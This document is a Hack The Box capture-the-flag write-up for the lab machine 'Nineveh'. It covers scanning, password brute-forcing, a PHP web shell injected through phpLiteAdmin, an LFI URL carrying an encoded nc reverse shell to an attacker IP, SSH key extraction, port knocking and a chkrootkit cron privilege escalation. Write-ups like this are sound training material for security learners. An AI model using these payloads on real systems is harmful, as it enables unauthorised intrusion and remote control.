# Nineveh

### Machine Info


#### Nmap



##### HTTP
Index Page:


`Gobuster`:


`Gobuster` with different wordlists:



`/info.php`:



`/department`:</br>
Tried to login with default/common credential but failed.


`Brute-force` against `/department` page:


We can now login to `/department` page with password `1q2w3e4r5t`:


From the department page I can check note:
```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```


I think we can change the `notes` parameter and it is vulnerable to `LFI` but when I change to something different (e.g `/etc/passwd`) it just returns "No Note is selected". It gives me error when the file starts with `ninevehNotes`.



This maybe because it searches or checks for string `ninevehNotes` before it executes.


##### HTTPS

Index Page:


`/db/index.php`:


I tried to login with default/common password but failed.

`Brute-force` against `/db/index.php`:


Now I can login with password `password123`:


`phpLiteAdmin v1.9` is vulnerable to `Remote PHP Code Injection`. Let's just follow the exploit `24044.txt` but with different value because we want to get a reverse shell.

First just create a db:


Create a new table with default value:
```
<?php echo system($_GET["cmd"]);?>

```


Now we just need to execute our malicious file from `/department` page from http server.

##### Exploit

We can create our new malicious php page from `phpliteadmin` and we can also access to file from `department` page. We cannot access to just random file name and the file name should be `ninevehNotes.php`. We already created from previous step so we just need to access.

Access from `/department` page:
```
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.37%204444%20%3E%2Ftmp%2Ff
```

`nc` listener from attacking side:



#### www-data to user Privilege Escalation

First I checked `html` directory and found weird `.png` file which has very large size:


I just downloaded file `nineveh.png` and enumerated it with `Binwalk` which is a tool for analyzing, reverse engineering and extracting firmware images:


`tar` archive is hidden in the png file. Let's extract file from image:


From the extracted files I can find the `ssh` private key:


But currently `ssh` port (22) is not opened. Let's keep enumerating if we can open `ssh` port.

From the mail directory I found one interesting mail for `Amrois` and it is from `root`:


It seems like if we do port-knocking to those three ports, port 22 will be opened. I just try port knock by using `knock`:

```
~/privEsc/linux-smart-enumeration master root@kali
❯ knock 10.10.10.43 571 290 911
```

And `nmap` again:</br>
Port 22 is opened now and we can ssh to user `amrois`!!


`ssh` to user `amrois` with key:



#### User to Root Privilege Escalation

During enumeration I found a directory `/report`:


File in the report directory updates every minute which means there is a cronjob. So I just checked the cronjob with `pspy`:


Command `/bin/sh /usr/bin/chkrootkit` is executed every minute with root privilege. But I cannot change `chkrootkit` due to lack of permission so I just search for public exploit:


I read the exploit `33899.txt` and followed steps.

First just create `update` file in the `/tmp` directory:


After a minute, from the `nc` listener:


And you can get `root.txt` :)
